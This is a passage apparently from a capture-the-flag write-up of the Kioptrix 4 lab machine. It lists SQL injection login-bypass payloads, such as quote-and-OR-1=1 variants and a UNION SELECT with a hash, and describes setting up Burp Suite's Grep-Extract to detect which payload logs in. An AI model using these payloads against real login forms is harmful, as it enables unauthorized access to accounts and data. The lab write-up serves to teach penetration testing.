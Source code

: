 ```sql
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
' or 1=1 #
```

![burp](/assets/img/posts/kioptrix4/4.2.png)

And on the options tab at the Grep-Extract section, we click on fetch response and select "Wrong Username or Password" so that will ease for us to discover which of the sql payloads succeeded to login.

![burp](/assets/img/posts/kioptrix4/4.3.png)
